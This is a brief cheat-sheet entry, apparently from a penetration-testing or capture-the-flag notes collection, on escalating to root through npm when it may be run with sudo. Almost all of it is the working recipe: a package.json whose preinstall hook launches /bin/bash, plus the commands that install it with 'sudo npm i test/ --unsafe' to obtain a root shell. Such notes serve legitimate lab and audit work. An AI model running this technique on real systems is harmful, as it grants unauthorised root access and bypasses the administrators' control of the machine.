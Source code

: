 ```yaml
---
title: "npm"
date: 2024-6-26
tags: ["npm", "nodejs", "privesc", "sudo"]
---
```


---
#### SUDO

Create a `package.json`

```json
{
  "name": "root",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "/bin/bash"
  }
}
```

```bash
mkdir test
```

```bash
mv package.json test/
```

```bash
sudo npm i test/ --unsafe
```

<br>
